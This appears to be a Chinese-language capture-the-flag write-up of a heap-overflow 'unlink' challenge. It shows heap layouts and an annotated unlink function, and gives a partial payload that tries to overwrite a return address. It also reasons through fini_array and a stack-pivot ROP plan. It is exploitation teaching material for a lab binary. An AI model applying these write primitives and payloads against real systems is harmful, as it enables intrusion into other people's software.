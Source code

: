 ### unlink

这题模拟的堆溢出的题型，比实际中的少了很多保护，利用起来比较简单。

思路：堆溢出造成的 **有一定限制的任意地址写** ，具体写哪里，然后这个题有info leak，可以搞一下。

---

每个结构体是0x10大小，看一下堆结构

0x804b410:	0x0804b428(fd)	0x00000000  0x3636363636363636(input)  0x00000000	0x00000019
0x804b428:  0x0804b440(fd)	0x0804b410(bk)  0x00000000  0x00000000	0x00000000	0x00000019
0x804b428:  0xaaaaaaaa(fd)	0xbbbbbbbb(bk)  0x00000000  0x00000000	0x00000000	0x00000019
0x804b440:	0x00000000	0x0804b428(bk)	0x00000000	0x00000000  0x00000000	0x00000409

```
void unlink(OBJ* B){
	OBJ* BK;
	OBJ* FD;
	BK=B->bk;  BK = 0xbbbbbbbb
	FD=B->fd;  FD = 0xaaaaaaaa
	FD->bk=BK;  [0xaaaaaaaa+8] 写为 0xbbbbbbbb
	BK->fd=FD;  [0xbbbbbbbb] 写为 0xaaaaaaaa
}
```

---

这时候我有一个错误的思路，将栈地址上的main-ret写掉，有如下的exp

`print '6'*4*4 +'\xbc\xbc\xa1\xbf'+'\xeb\x84\x04\x08'`

将`addr(A)+0x28`写为`0x080484EB`

即0xaaaaaaaa = 0x0804866C; 0xbbbbbbbb = 0x080484EB;

然后发现不可以这么做，因为堆的地址每次都会变，gdb关掉了这个功能，所以需要重新弄一下

----

后来又想到一个问题，unlink是有两次写数据的，要让程序不崩掉，需要保证两处都是可以写的，上面我们的思路造成了两处写

```
stack[ret] = addr(get_shell)
addr(get_shell) = addr(stack[ret])
（省略offset）
```

get_shell在text段，显然不可以写入数据，此思路gg


只能写`fini_array`

使用这个命令`readelf -S unlink`
`[19] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4`

表示程序执行完了以后，跳到0x8048f0c

但还是之前的问题 addr(FINI_ARRAY) 与 addr(get_shell)的地址会相互写入对方的附近，显然text段是不可以写的

-----

**有写权限的段在IDA里ctrl+s是可以看的**

![pic0](pic0.png)

看来这题只能写栈和写堆，进行栈迁移，再使用ROP进行get_shell。

堆地址和栈地址均随机，好在这个题提供了这两个的位置。
